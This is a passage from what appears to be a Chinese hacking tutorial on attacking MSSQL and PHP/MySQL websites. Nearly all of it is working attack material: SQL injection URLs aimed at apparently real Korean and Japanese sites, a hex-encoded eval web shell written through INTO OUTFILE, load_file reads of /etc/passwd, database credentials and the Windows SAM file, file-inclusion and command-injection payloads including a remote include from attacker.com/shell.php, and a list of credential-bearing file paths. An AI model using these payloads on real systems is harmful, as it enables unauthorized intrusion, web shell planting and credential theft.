字段数取得后，接下来就是回显问题了。如前面的例子，当取得字段数后，我们按照平常的做法提交如下 URL：

```text
http://www.test.co.kr/custom/Noti_02.asp?id=366%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11
```

很可惜，依然错误，如图317。这个时候怎么办？有十一个字段，我们怎么确定是哪一个字段类型不符呢？要一个一个地替换后再看回显吗？不，如果你够聪明，会想到利用 `null` 来替换（因为 `null` 能匹配任何类型），我们试一下提交如下 URL：

```text
http://www.test.co.kr/custom/Noti_02.asp?id=366%20and%201=2%20union%20select%20null,null,null,null,null,null,null,null,null,null,null
```

得到的信息如图318。


图318

什么？用 `null` 来替换出错？你是不是惊呆了？不，仔细看下图318和图317的区别。的确，图317提示的是类型不匹配，但图318不是。在图318中，我们明显地没有看到 `text`、`int` 等关键性字眼，而是出现了 `distinct`。我们来到 `http://msdn.microsoft.com/zh-cn/events/bb399797.aspx` 查看一下官方的解释：

> UNION：指定组合多个集合并将其作为单个集合返回。  
> ALL：指定组合多个集合并将其作为单个集合返回（包括重复项）；如果未指定，则从结果集合中删除重复项。

Union 只能返回单个集合并且不包含重复项，而刚才看到的单词 distinct 是“截然不同”之意，显然我们这个注入语句后面包含了不同的结果集。这里要解决的就是不让其报错，而不是类型匹配的问题，并且其参数 all 很好地解决了这一问题，我们按照如图319中的语句进行提交，大家可以看看结果。

原本以为问题就这么解决了，可新的问题又出现了。这里我遇到的这一个注入点算是比较特殊吧。提醒一下大家，我们遇到的大多数注入点都是可以用数字型和字符型来代替，因此可以用数字一个个地来代替并注意回显的内容。


图319

如我们把第一个 NULL 和第二个 NULL 分别换成 1 和 2，发现都是和图319一样的错误，这样我们就不去理会了，接着替换 null。

替换到 5 的时候，发现正常了，如愿以偿地在页面中看到了相应的字段数：

```text
http://www.xxxx.co.kr/custom/Noti_02.asp?id=366%20and%201=2%20union%20all%20select%201,2,3,4,5,null,null,null,null,null
```

得到的结果如图320。

啊啊，一次怪异的 union 注入终于完成了，接着就可以在相应的字段数上填上你的 SQL 语句了。另外，如果你发现字段只有一个的话，我们不必去管这仅有的字段数的类型，直接把这一个字段数换成 SQL 语句，如：

```text
http://www.test.com/f/services/forums/inscription.asp?id=77%20and%201=2%20union%20all%20select%20@@version
```


得到的结果如图321。

总之，union 注入要灵活，要根据结果来不断变化，直到正确为止。以上算是对 union 注入的一点小总结吧，希望对大家有用。

好了，关于 mssql 数据库的注入就说到这里了，有一些存储过程我可能没有正规地提到，但是细心的朋友会发现，在我引用的文章里都有其身影。注入是一种很灵活的攻击手法，特别是对于 mssql 类型的数据库，因为这种类型的数据库功能太强大了。同时也很感谢以上各位朋友们的文章，他们的文章让这一节的真实性增强了许多。记住，学习 SQL 一定要实践，这样才有进步。


## 4.5.3 针对 mysql 数据库的攻击

和 mysql 数据库搭配在一起的大多数为 PHP 脚本，除了前面提到的脚本漏洞外，PHP 还有其自身特点的漏洞，接下来就让我们走进 PHP+MYSQL 的世界。

##### 4.5.3.1 路径泄露

当然，这个问题并不是 PHP 脚本所固有的，在 ASP 和 JSP 等其它脚本中也可能遇到这样的问题，可是这个问题在 PHP 这里就显得更显眼。为什么这样说呢？通常 PHP 所返回的错误提示都能帮助开发者调试程序，它会提示哪个文件的哪些函数或者代码出错，并指出错误发生在文件的第几行，这些就是 PHP 本身所给出的信息。

但是在正式运行的网站中，这种做法可能会暴露出隐藏的变量、未检查的语法和其它可能危及系统安全的信息。这些信息对于攻击者都是很有效的，通常在入侵过程中暴露的信息可能包括使用的数据库版本、网站路径以及一些程序中定义的函数名等，这里最敏感的莫过于网站路径了。我们先来看一下关于错误信息的一张图片，如图322。


我们可以看到，包括一些函数名和路径信息都出现在了浏览这个页面的人面前，这种情况是很严重的。通过对这些错误信息的观察，再结合 Google 的搜索，我们可以构造如下关键字：

```text
Warning include (路径 空符) inurl:php
```

这样就可以搜索到含有错误信息的页面了，效果如图323。


是的，除了攻击者关心这些信息，网站管理员同样也很关心。那么如何应对这些信息的外露呢？根据官方网站的一些意见，如果你的网站已经投入运营，那么最好在 `php.ini` 里把 `display_errors` 选项设置为 `off`。如果你想要查看错误但又不想这样直接，可以在 `php.ini` 文件里把 `log_errors` 选项打开，并通过 `error_log` 指定用于记录错误信息的文件。令人遗憾的是，大多数的管理员对此放任不管，有时候我们提交一个单引号就会引起上面的错误发生。

## 4.5.3.2 本地 / 远程文件包含漏洞

说到这里，就不得不涉及到以下函数：

```text
include，include_once，require，require_once，show_source，highlight_file，readfile，file_get_contents，fopen，file ...
```

在上面提到的函数里，我们见到的大多数要属 include 和 require，而 include_once 和 require_once 则是它们的变体，意思是只用一次。严格意义上来说，所有的关于文件方面的函数如果使用不当，都有可能存在风险。如果你对上面的函数不太了解，可以到 PHP 手册里查阅相关资料。

先来看一则本地文件包含的代码：

```php
if (empty($GLOBALS['phpgw_info']['user']['preferences']['common']['country'])) {
    $rule = 'US';
} else {
    $rule = $GLOBALS['phpgw_info']['user']['preferences']['common']['country'];
}
$calc_include = PHPGW_INCLUDE_ROOT . '/calendar/inc/class.holidaycalc_' . $rule . '.inc.php';
if (@file_exists($calc_include)) {
    include($calc_include);
} else {
    include(PHPGW_INCLUDE_ROOT . '/calendar/inc/class.holidaycalc_US.inc.php');
}
```

这段代码是 `phpgroupware<=0.9.16.010` 以下版本中 `calendar/inc/class.holidaycalc.inc.php` 文件里的。很明显，这里的 `$rule` 变量存在着问题，利用 URL 为：

```text
http://www.site.com/[phpGroupWare_path]/calendar/inc/class.holidaycalc_inc.php?GLOBALS[phpgw_info[user][preferences][common][country]]=../../../../../../etc/passwd%00
```

这只是一个例子而已，作者还写了一个 EXP。如果你对 PHP 很有研究的话一定会很惊讶，一个 local file inclusion 还能写出 EXP 来？是的，在看这个 EXP 之前，这个作者交待了几个关键性的问题。第一个被提到的就是 `short_open_tag` 这个选项，在 EXP 中明确指明了 `short_open_tag=on` 才能成功。这个选项意味着什么呢？它决定了是否允许使用 php 代码开始标志的给定形式 `<? ?>`，也就是说，php 将支持 `<?/**/eval($_post[cmd]);/**/?>` 这样的短语句。如果禁用此选项，就必须使用 `<?php ?>` 这样的完整形式。

而 short_open_tag 只是其中一个条件，在 EXP 的开头部分还有这样的说明信息：

> this works against register_globals=On  
> and magic_quotes_gpc=Off

意思是说 EXP 的利用还需要条件，那就是 register_globals=on 和 magic_quotes_gpc=off。

register_globals 的意思是注册为全局变量，所以当为 on 的时候，对于一些表单传递过来的值会注册为全局变量而直接使用；而在 off 的情况下，就需要到特定的数组里去得到它。

magic_quotes_gpc 的意思是影响到 http 请求数据，包括 GET、POST 和 COOKIE，所有的单引号（'）、双引号（"）、反斜线（\）、NULL 字符都会被自动加一个反斜线进行转义，这和函数 addslashes() 作用完全相同。

了解了这些，我们再回头看一下作者给出的例子：

```text
http://www.site.com/phpGroupWare/path/calendar/inc/class.holidaycalc.inc.php?GLOBALS[phpgw_info][user][preferences][common][country]=../../../../../../../../etc/passwd%00
```

看到最后有一个“%00”吗？这个是 null 的意思。如果你的 magic_quotes_gpc 为 OFF，系统会自动截断 %00 以后的数据。很可惜，在 PHP 的较新版本中这个选项是默认开启的，你会发现这样一来似乎变得没有多大的乐趣。

这里还有一个比较有趣的例子，就是可以结合图片上传来执行我们的代码，也就是我们把想要执行的代码隐藏在图片中就可以达到目的了。如我们构造下面这样的代码：

```php
<?php
$id=$_GET['id'];
include($id);
?>
```


然后利用前面讲到的 copy 知识，把 `<?php phpinfo();?>` copy 到一个正常的图片文件中，我们再访问 `http://192.168.1.200:88/test.php?id=11.jpg`，得到的效果如图324。

除了 JPG 以外，其它任何形式的文件都是可以的。除了上面提到的这种方法外，牛人们还有其它的突破方法。

无论是什么 Web 服务器都有着日志，要是我们能把一些 PHP 代码写到日志文件中，再结合本地包含，一样可以做很多事情。问题是跟着问题的，这里又要和 short_open_tag 联系到一起了。

> 如我们要把 `<?php eval($_POST[cmd]);?>` 写到日志文件中时，中间的空格会被 URL 转成 `%20`，这样一句话木马就写不起来了。而 short_open_tag 为 on 的话，我们可以把 `<?/**/eval($_POST[cmd]);/**/?>` 这样的语句写进去并且是可用的。

接下来再看一下远程文件包含，这个漏洞涉及到 allow_url_fopen 选项，这个选项的开启意味着可以通过 http 或者 ftp 协议来访问远程文件。和前面的本地文件包含相比，远程包含的威力大得多，但可惜的是，在较新版本的 PHP 中，这个选项默认是关闭的。

我们还是先来看一下如下代码：

```php
<?php
if (eregi('theme.php', $_SERVER['PHP_SELF'])) {
    die();
}
global $theme, $FNROOTPATH, $lang;
global $forumback, $forumborder;
$FN['table_background'] = &$forumback;
$FN['table_border'] = &$forumborder;
if ($forumback=='' && $forumborder=='') {
    $forumback='ffffff';
    $forumborder='000000';
}
require_once($FNROOTPATH.'/themes/$theme/theme.php');
?>
```

条件符合的话，我们可以提交如下 URL 来得到一个 SHELL。

```text
http://site.com/~flatnux/index.php?_FNROOTPATH=http://attacker.com/shell.php%00
```

另外，也有人通过 win 下的 file 协议绕过了 allow_url_fopen，如我们新建一个名为 url.php 的文件，内容为：

```php
<?php
include $path."/config/config.inc.php";
?>
```

再在当前目录下建一个 **config** 的文件夹，并在这个文件夹下建一个 **config.inc.php** 的文件，内容为：

```php
<?php
phpinfo();
?>
```

平常情况下，只要提交“http://192.168.1.200./url.php?path=”就可以包含了，效果如图325。接下来我们利用 FILE 协议来读取，如提交：“http://192.168.1.200:88/url.php?path=file:///\\192.168.1.200\d$\appserv\www\”，效果如图326。

其中 `f:/appsrv/www` 就是 config 文件夹所在的物理路径，这样在 allow_url_fopen 关闭的情况下依然可以通过协议来读取文件，只不过本例中的 FILE 协议是读取本地共享文件的，至于其它的协议或者资源，大家可以自己去发掘。

看了上面的例子我们会得到一个很不好的结论，那就是本地 / 远程文件包含漏洞在现行意义中的 PHP 环境下威力不怎么乐观。但是，internet 上千奇百怪的网站林林总总，如果够细心，相信这样的漏洞在一定程度上还是很厉害的。

##### 4.5.3.3 文件访问权限验证不严

和 ASP 中一样，有些文件没有对其访问权限进行严格的设置，我们来看下 index.php 里的代码：

```php
<?php
include ('Function.php');
$action=$_GET['action'];
if ($action == $actionArray[$action][0]) {
    // load proper function with $_GET
    ...
}
?>
```

再来看一下 function.php 里的代码：

```php
<?php
$actionArray = array(
  'activate' => array('Register', 'Activate'),
  'admin'    => array('Admin', 'Admin'),
  'upload'   => array('Post', 'upload'),
  'ban'      => array('ManageBans', 'Ban')
);

function Forum() {
  # Authorize Function
}

function upload() {
  # admin function without Permission
}
?>
```


攻击者可以直接提交“http://site.com/index.php?action=upload”来调用相关的代码。

##### 4.5.3.4 上传漏洞

这个和 ASP 里的差不多，也是基于两种形式的漏洞：一种是逻辑上的，一种是代码本身。如果不清楚，可以参考前面几小节。

##### 4.5.3.5 install 文件的风险

在 ASP 里一般很少看到 install 这样的文件（是有的，只不过情况没有 PHP 这么普遍），但在 PHP 里，一般的 PHP 整站系统都会含有 install 文件夹来方便使用者安装。这样问题就随之而来，一些程序在设计的时候并没有在程序安装完成后删除 install 这个文件夹或者文件，而这里面通常可以再进行初始化的操作，如此一来，情况就变得不太乐观。

其实大多数的程序都存在这样的问题或者管理员的疏忽，大家可以用 Google 来搜索，如 `inurl:install.php`，结果如图327，就是著名的 PHPBB 论坛系统的安装页面。

攻击者大可以再重新进行安装，这样可以导致站长苦心经营的网站一瞬间就没了，是不是很恐怖？


图327

##### 4.5.3.6 random 函数的缺陷

先看如下代码：

```php
<?php
$rnd = rand(1,100);
$fp = fopen("rnd_".$rnd."_backup.sql", "w");
fwrite($fp, $db);
fclose($fp);
?>
```

在代码中我们看见有 `rnd_*_backup.sql` 文件存在，而 `$rnd` 的范围在 1 到 100 之间。因为是 rand，所以总会有一个范围，只要有范围的存在，就存在着被暴力猜解的可能。如 php-fusion<=6.00.105 就存在这样一个问题，有经验的攻击者会写出一个暴力破解的程序以达到目的，大家可以到：`http://www.milw0rm.com/exploits/1068` 参考一下实例。

##### 4.5.3.7 变量覆盖及变量未初始化漏洞

关于变量覆盖，著名的 DZ 论坛就出现过类似的问题，在 `/wap/index.php` 里有如下代码：

```php
// 第43行
$chs = '';
if($_POST && $charset != 'utf-8') {
    $chs = new Chinese('UTF-8', $charset);
    foreach($_POST as $key => $value) {
        $$key = addslashes(stripslashes($chs->Convert($$key)));
    }
    unset($chs);
}

if(in_array($action, array('home','login','register','search','stats','my','myphone','goto','forum','thread','post'))) {
    require_once './include/'.$action.'.inc.php';
}
```

这里利用到了 `convert()`，如果存在 `iconv()`，将会用此函数进行编码转换，这时如果传递进来的参数是一个数组，将会返回 FALSE。那么 post 提交一个 `_DCACHE=1`，经过 convert() 处理 `$_DCACHE` 就会被覆盖成 NULL，具体的分析大家可以参考：`http://www.80vul.com/dzvul/sodb/13/sodb-2008-13.txt`。

另外，关于变量未初始化的问题，如 FLYH4T 写的文章《浅析 LxBlog V6 变量未初始化漏洞》中提到的 `/user/tag.php` 文件里的代码：

```php
<?php
!function_exists('usermsg') && exit('Forbidden');
in_array($type, $item_type) && exit;
```

```php
// $type、$item_type 均没有初始化
require_once(R_P.'mod/charset_mod.php');
foreach ($_POST as $key => $value) {
    ${'utf8_'.$key} = $value;
    ${$key} = $db_charset != 'utf-8' ? convert_charset('utf-8', $db_charset, $value) : $value;
}

if ($job == 'add') {
    // ...省略部分代码
} elseif($job=='modify') {
    $tagnum="{$type}num";
    $touchtagdb=$db->get_one("SELECT k.tags,i.uid FROM pw_{$type} k LEFT JOIN pw_items i ON i.itemid=k.itemid WHERE k.itemid='$itemid'");
    // $type 被带入查询语句来操作数据库
    $touchtagdb['uid']!=$admin_uid && exit;
    // ...省略部分代码
}
```

在上面的代码中作者已经解释得很清楚了，`$type`、`$item_type` 均没有初始化，再结合具体的环境就可以进行利用了，大家可以到：`http://www.pcsec.org/archives/LxBlog-V6-Vulnerability.html` 参考详细的分析。

##### 4.5.3.8 直接写文件

这里提到的漏洞包括一些代码上的逻辑漏洞和正则表达式的不完美。我们首先来看一下 dedecms 出过的写文件漏洞的代码：

```php
function WriteBookText($cid,$body)
{
    global $cfg_cmspath,$cfg_basedir;
    $ipath = "$cfg_cmspath/data/textdata";
    $tpath = ceil($cid/5000);
    if(!is_dir($cfg_basedir.$ipath)) MkdirAll($cfg_basedir.$ipath,$GLOBALS['cfg_dir_purview']);
    if(!is_dir($cfg_basedir.$ipath.'/'.$tpath)) MkdirAll($cfg_basedir.$ipath.'/'.$tpath,$GLOBALS['cfg_dir_purview']);
    $bookfile = $cfg_basedir.$ipath.'/'.$tpath.'/bk'.$cid.'.php';
    $body = "<?php exit();?>\r\n".$body."\r\n?>";
    @$fp = fopen($bookfile,'w');
}
```

最关键的一句莫过于“`$body = "<?php exit();?>\r\n".$body."\r\n?>";`”，这是修补漏洞后的文件，以前这一句里没有 `exit();`，这样攻击者就可以把一句话等可执行的 PHP 代码写进去。官方发现后在前面加了一个 `exit()` 函数来让一些写进去的代码不能执行。不过，针对这一点我们仍然有利用的机会，那就是利用 PHP 的柔性。我们随便提交一些恶意的，或者奇怪点的字符，由于不匹配等问题就会让程序报错。

还有一类的逻辑漏洞，如 eval、preg_replace 函数等，看看下面的代码：

```php
<?php
[...]
$register_poll_vars = array('id','template_set','action');
for ($i=0;$i<sizeof($register_poll_vars);$i++) {
    if (isset($HTTP_POST_VARS[$register_poll_vars[$i]])) {
        eval("\$$register_poll_vars[$i] = '".
            trim($HTTP_POST_VARS[$register_poll_vars[$i]])."' ;");
    } elseif (isset($HTTP_GET_VARS[$register_poll_vars[$i]])) {
        eval("\$$register_poll_vars[$i] = '".
            trim($HTTP_GET_VARS[$register_poll_vars[$i]])."' ;");
    } else {
        eval("\$$register_poll_vars[$i] = '';");
    }
}
[...]
?>
```

其中的“`$$register_poll_vars[$i]`”就是一个可以被操纵的变量，攻击者可以提交：

```text
http://site.com/comments.php?id=';[PHPCODE];//&template_set=';[PHPCODE];//&action=';[PHPCODE];//
```

再如一些系统喜欢用一些正则来过滤一些危险的字符，这样也是容易出问题的。比如下面简单的代码：

```php
<?php
  echo preg_replace('/.*/e', $_GET["id"], "");
?>
```

上面的正则没有起到过滤的作用，攻击者可以提交 `index.php?id=phpinfo()` 来达到相应的目的。

##### 4.5.3.9 直接执行系统命令

在 WIN 下，PHP 默认安装的是系统权限，好多管理员没有对此进行设置。而且 PHP 本身的灵活性可以执行一些系统函数，如：`exec()`、`system()`、`passthru()`、`shell_exec()`、`proc_open()`、`pcntl_exec()` 等，在程序中运行这些函数也是非常危险的，如以下代码：

```php
<?php
$page = $_GET['page'];
system('type '.$page);
?>
```

如果对方是 *nix 主机，攻击者可以提交 `index.php?page=/etc/passwd |uname a`，主机里的敏感信息就暴露在攻击者面前了。当然，在 win 下还可以做好多事呢。

##### 4.5.3.10 注入攻击

注入在 PHP 中依然是很泛滥，不过在 PHP 下又有些不同，前面提到的有数字型、字符型和搜索型注入，但在 PHP 脚本里，最常见的莫过于数字型了。为什么呢？因为 GPC 的影响，前面已经提到了，这个选项会对一些字符进行转义处理。不过，也不是没有办法绕过 GPC，那就是通过编码的形式，下面我们一一来接触下。

在 PHP 注入中我们利用到的就是 union 查询，如果这些都不能用了，就只能像 ACC 一样地进行猜了。在进行 union 查询之前也是先要判断字段数的，这个在前面已经提到了，这里提醒一下，在 mysql 中是支持 `/*` 和 `#` 的注释的。

得到字段后，我们可以继续得到关于数据库版本、数据库用户等相关信息的。如提交：

```text
http://www.test.co.jp/business_detail.php?id=7%20%20and%201=2%20union%20all%20select%20version()/*
```

就可以得到数据库的版本信息，如图328。

是的，这样一个个地查看显得麻烦，我们可以利用 concat 函数把要查询的变量都连接起来，之间用特殊符号进行分割。提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20%20and%201=2%20union%20all%20select%20concat(version(),0x3a,user(),0x3a,database())/*
```


图328

得到的效果如图329。语句中的 `0x3a` 就是 `:` 的十六进制。这样就可以一次性地取出相关数据了，并且通过这个查询，我们还可以判断出操作系统的版本号，如提交：

```text
http://www.test.co.jp/business_detail.php?id=7%20%20and%201=2%20union%20all%20select%20@@global.version_compile_os%20from%20mysql.user/*
```


图329

得到的结果如图330。是 freebsd 的操作系统哦。大家看我上面的操作，页面都是带有错误信息的，但这一点都不影响我进行注入查询。在注入的时候一定要灵活，不要因为有错误的发生就以为注入不了了，这是很不正确的。

到了这一步我有必要交代一下，从上面得到的结果可以看出，mysql 的版本是 4.1.22，也就是说小于 5.0 版本。为什么要和 5.0 版本划出界限呢？因为在 mysql>5.0 的版本中内置了一个系统表，名为 `information_schema`，通过注入我们就可以通过这个表来查询所有的数据库名、表名、列名以及相应的内容了。

但这里不是大于 5.0 的版本，所以要去猜表，这可是一个暴力活，先不急，来看一下是不是 root 权限。提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20and%20ord(mid(user(),1,1))=114/*
```

返回的页面和刚才的不一样，说明用户不是 root。如果是 root，并且 gpc=off 的话，我们可以利用提交如下 URL 直接写入一句话：

```text
http://www.test.co.jp/business_detail.php?id=7%20and%201=2%20union%20all%20select%200x3C3F70687020406576616C28245F504F53545B615D293F3E%20into%20outfile%20%27/usr/home/safe848/www/htdocs/a.php%27/*
```

如果成功，我们就把一句话“`<?php @eval($_POST[a])?>`”写到目标网站中去了。另外，有时候目标机器使用了 urlencode 函数，我们可以使用“`%2527`”来对单引号进行转换绕过 GPC。直接写文件的要求比较苛刻，成功率不会太高，看情况而定了。当然，如果不是 root，我们还可以探测下有没有读文件的权限，提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20%20and%20(select%20count(*)%20from%20mysql.user)%3E0/*
```

返回正确，其实这个工作应该在刚才查询系统名的时候已经做了，能够从 `mysql.user` 中读取数据，说明我们有读取文件的权限。

现在事情变得有趣起来，由于是 *nix 系统，试着暴一下 `/etc/passwd` 里的内容吧，提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20and%201=2%20union%20all%20select%20load_file(0x2F6574632F706173737764)/*
```

得到的结果如图331。


其中 `2F6574632F706173737764` 是 `/etc/passwd` 的十六进制。读出这个你也许会觉得没有多大用处，观点可是错误的哦。虽然没有密码，但我们可以根据这里面的用户名自己制作相应的密码字典，再用 hydra 进行暴力破解。不要鄙视暴力破解，有时候效果会很不一般（关于 hydra 的使用我将在后面进行讲解）。

我们把目光再转向刚才暴出来的物理路径“`/usr/home/safe848/www/htdocs/inc/db.php`”，很明显，这个 db.php 应该是数据库的连接文件了。把上面的地址转成十六进制再提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20and%201=2%20union%20all%20select%20load_file(0x2F7573722F686F6D652F73616665343834382F7777772F6874646F63732F696E632F64622E706870)/*
```

好了，再看下结果，如图332。很显然源文件的代码被暴露出来了，这样直接看不太方便，我们可以通过按鼠标右键选择“查看源代码”来查找相关的敏感数据。如图333，就是找到的数据库连接账号和密码。

OK，事情似乎进展得很顺利，接下来当然是利用 mysql 连上去了，可是当我们输入连接命令后出现了如图334的提示。

不要吃惊，出现这种情况也很正常，连接不上是做了限制。好了，接下来的思路就要走猜表的路线了。暴力猜表除了用字典的方式外，另外一个就是利用 HTTP 的返回内容来判断了。暴力猜解的方法我就不说了，主要提一下第二种方法，要利用这种方法就要用到工具 Acunetix Web Vulnerability Scanner，前面我们已经提到过这个工具，功能确实很强大。


图333


图334

不说废话，进入正题，我们先来看一下得到正确表的状况并抓包。先提交如下 URL：

```text
http://www.test.co.jp/business_detail.php?id=7%20and%201=1%20union%20all%20select%201%20from%20mysql.user/*
```

得到的结果如图335所示。看好我提交的方式哦，这里是 and 1=1 的情况，如果是 and 1=2 的话，图335中我标记的地方就会出现 1。下面看看抓到的包，内容如下：


图335

```text
GET /business_detail.php?id=7%20and%201=1%20union%20all%20select%201%20from%20mysql.user/* HTTP/1.1
Host: www.safetyWeb.co.jp
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.0.7) Gecko/2009021910 Firefox/3.0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: gb2312,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Cache-Control: max-age=0
```

现在打开 Acunetix Web Vulnerability Scanner，切换到“http fuzzer”项，在右边看到的“request”里填入刚才抓到的包的内容，如图336。


图336

如果你看到“%20”不爽，可以把“%20”用“/**/”替换掉。接着在最右侧的“add generator”选择“string generator”，在下面具体设置中的“string length”里填上你想要猜解的表的长度，我这里填的是 4，下面的“character set”为你猜解的范围，一般是 0-9、z-a、A-Z 及一些特殊字符，我这里填上“admin1ur”（这里根据需要填写，如果猜解的表中是数字，可以填写 0123456789）。这样 avs 就会把 admin1ur 所有不同顺序的四位组合列出来并一个个地去试探，这和高中数学里的排列组合知识一样。


图337

这里设置完以后，我们得告诉 avs 猜到正确表信息后的特征信息。如刚才我提交 mysql.user 的时候就返回了“日本国内の製品安全認証”字样，现在打开刚才提交的 URL，查看源文件，定位到“日本国内の製品安全認証”处，如图337。

把图337中我标记的都记下来，接着来到“fuzzer filters”，如图338。点击后，在“rule description”选项中随便填，只是一个名称而已。“rule type”中可以选择条件，include表示包含，而exclude表示的是排除。刚才在查询`mysql.user`的时候出现了“日本国内の製品安全認証”，如果在猜解过程中出现了“日本国内の製品安全認証”这样的字眼，那么肯定就猜到正确的表了。


图338

“apply to”的选项保持默认即可，最后的“regular expression”中填入`<td align="left" class="title-detail">日本国内の製品安全認証</td>`，都填好后的效果如图339。单击“add”添加到规则中，最后单击“OK”。再次回到主界面后，把鼠标定位到“from/**/”后，单击右边的“insert into request”，最后一切都设置好的效果如图340。


图339

一切准备就绪后，单击“start”，程序会自动切换到“results”项，效果如图341。


图340

这只是一种思路，相反在实际情况下这种操作需要大量的时间和耐心。这种功能并不局限于猜表，而且还可以猜后台、猜文件、猜列，设置和刚才也是差不多的。说到这里就不得不提到一个小技巧了，那就是在得到当前表后如何猜列的问题！如前面提到的URL：


图341

```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,2,3,4,5%20from%20board2
```

通过union查询得到了前面注入点的五个字段，如果`board2`下有四个列，那么我们可以提交：

```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,*,*%20from%20board2
```

这样可以暴出相应的`board2`下的列名。这个方法有局限性，利用起来条件算是比较苛刻的吧。

好了，在 `mysql < 5.0` 的版本下猜表真是一件很痛苦的事，不过在 `mysql > 5.0` 版本下许多新的特性让攻击者省下不少时间。其中5.0以上的版本中有一个新变量，那就是 `@@datadir`，我们提交这个变量就可以得到数据库所在的路径，URL如下：

```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,@@datadir,3,4,5
```

得到的结果如图342。  
那么，如何得到所有数据库的库名呢？那得先得到当前数据库的第一个库名，提交如下URL：


```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,2,3,SCHEMA_NAME,5%20from%20information_schema.SCHEMATA%20limit%201,1
```

得到的结果如图343。  
想得到其它库名，只需要把以上语句中“limit 1,1”里的第一个1改成相应的数字即可。如要得到第二个库名，提交“limit 2,1”。在得到库名后，当然是得到表名了。如要得到刚才得到的库`hsbaik`下的表名，提交如下URL：


```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,2,3,TABLE_NAME,5%20from%20information_schema.TABLES%20where%20table_schema=0x68736261696B%20limit%201,1
```

其中的`68736261696B`是`hsbaik`的十六进制，效果如图344。


得到表后就要继续得到列名了。如要得到刚才`board2`表下的列名，提交如下URL：

```text
http://hsbaik.test.ac.kr/board/replyform.php?code=board3&page=4&number=306%20and%201=2%20union%20select%201,2,3,COLUMN_NAME,5%20from%20information_schema.COLUMNS%20where%20TABLE_NAME=0x626F61726432%20limit%201,1
```

结果如图345。想得到其它的表及列名只要按照以上方法依此类推即可。  
再来看一下关于字符型的注入。由于GPC的影响，我们的单引号会被无情地转义掉，但在特殊编码面前，如GBK编码，`0xbf27`本身不是一个有效的GBK字符，但经过`addslashes()`转换后会变为`0xbf5c27`，前面的`0xbf5c`是个有效的字符，所以`0xbf5c27`会被当作一个字符`0xbf5c`和一个单引号来处理。这样，单引号就被带入了查询，从而触发了漏洞。  
如对相应的字符型进行注入时，可以提交如下URL：


```text
http://www.test.com/newsroom/news_view.phtml?news_id=2688%cf%27%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37/*
```

得到的结果如图346。

好了，关于mysql中的注入就讲到这里，接下来推荐大家看一下我的好友sai52写的文章《MYSQL注入中load_file()函数的进一步应用》和cnbird写的《一次艰难但有趣的PHP注入入侵》。

## 《MYSQL注入中load_file()函数的进一步应用》

MYSQL注入中，`load_file()`函数在获得Webshell以及提权过程中起着十分重要的作用，常被用来读取各种配置文件：

- /usr/local/app/apache2/conf/httpd.conf  // apache2缺省配置文件
- /usr/local/apache2/conf/httpd.conf
- /usr/local/app/apache2/conf/extra/httpd-vhosts.conf  // 虚拟网站设置
- /usr/local/app/php5/lib/php.ini  // PHP相关设置
- /etc/sysconfig/iptables  // 从中得到防火墙规则策略
- /etc/httpd/conf/httpd.conf  // apache配置文件
- /etc/rsyncd.conf  // 同步程序配置文件
- /etc/sysconfig/network-scripts/ifcfg-eth0  // 查看IP
- /etc/my.cnf  // mysql的配置文件
- /etc/redhat-release  // 系统版本
- /etc/issue
- /etc/issue.net
- c:\mysql\data\mysql\user.MYD  // 存储了mysql.user表中的数据库连接密码
- c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini  // 存储了虚拟主机网站路径和密码
- c:\Program Files\Serv-U\ServUDaemon.ini
- c:\windows\my.ini  // MYSQL配置文件
- c:\windows\system32\inetsrv\MetaBase.xml  // IIS配置文件


图346

以上只是一部分而已，实际上`load_file()`的作用不止如此，它还可以用来读取系统中的二进制文件：

- c:\windows\repair\sam  // 存储了WINDOWS系统初次安装的密码
- c:\Program Files\Serv-U\ServUAdmin.exe  // 6.0版本以前的serv-u管理员密码存储于此
- c:\Program Files\RhinoSoft.com\ServUDaemon.exe
- c:\Documents and Settings\All users\Application Data\Symantec\pcAnywhere\*.cif 文件  // 存储了pcAnywhere的登录密码

以上只是部分敏感文件，如果MYSQL账号权限足够高的话，理论上`load_file()`函数可以读取任何文件，只是因为浏览器的编码不能完全显示二进制编码的文件，从而无法把`load_file()`出来的二进制文件存储并加以利用。

其实这个问题很容易解决，只要用`hex()`函数把用`load_file()`函数读出的二进制文件转为十六进制，就可以把二进制文件以十六进制编码的形式完全显示在网页上。把这些十六进制代码复制下来，用十六进制文件编辑器编辑后另存，就可以得到完整的二进制文件。

下面用实例加以说明，目标服务器为Win2003系统，存在root权限的注入点，有读取权限，如图347。

`load_file()`读取目标服务器`c:\windows\repair\sam`文件；如果Windows系统安装后管理员没有更改密码的话，则有希望得到目标服务器上的Windows用户密码。构造的URL如下：

```text
http://www.site.com/vuln/pf.php?id=59/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,6,7,replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)),0,32),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30/*
```

（注：`char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)`是`c:\windows\repair\sam`的ASCII编码）

得到的结果如图348，显示为乱码的sam文本。


图347

